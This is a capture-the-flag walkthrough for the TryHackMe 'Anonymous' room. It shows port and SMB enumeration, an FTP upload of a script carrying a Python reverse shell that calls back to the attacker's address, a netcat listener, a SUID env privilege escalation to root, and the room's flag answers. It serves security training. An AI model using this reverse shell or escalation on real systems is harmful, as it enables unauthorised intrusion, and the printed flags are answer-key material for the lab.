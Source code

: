 ```yaml
---
description: 'https://tryhackme.com/room/anonymous'
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](../.gitbook/assets/image%20%28254%29.png)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](../.gitbook/assets/image%20%28253%29.png)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](../.gitbook/assets/image%20%28252%29.png)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```text
enum4linux -S 10.10.17.122
```

![](../.gitbook/assets/image%20%28251%29.png)

{% hint style="success" %}

{% endhint %}

### user.txt 

![](../.gitbook/assets/image%20%28277%29.png)

![](../.gitbook/assets/image%20%28283%29.png)

![](../.gitbook/assets/image%20%28250%29.png)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```text
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](../.gitbook/assets/image%20%28262%29.png)

![](../.gitbook/assets/image%20%28274%29.png)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```text
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```text

env /bin/sh -p
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28260%29.png)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}

